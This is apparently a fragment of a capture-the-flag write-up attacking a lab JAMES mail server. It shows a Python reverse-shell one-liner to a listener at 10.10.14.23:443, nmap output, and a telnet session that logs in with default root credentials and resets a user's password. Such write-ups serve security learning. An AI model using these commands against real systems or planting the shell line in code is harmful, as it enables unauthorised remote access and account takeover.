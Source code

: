 ```shell
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.23/443 0>&1"')
```

- This will initiate a reverse shell to my listener every time the `tmp.py` script is run.
- On the attacking machine, I'll run a netcat listener on port 443, to capture any incoming requests.

![](../../Assets/root.png)

# Findings

## Open Ports

```shell title:nmap
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

## SMTP Login (4555)

```shell fold title:smtp
┌──(root㉿9e9bedea3549)-[/host_data]
└─# telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy rootpass
Password for mindy reset
```
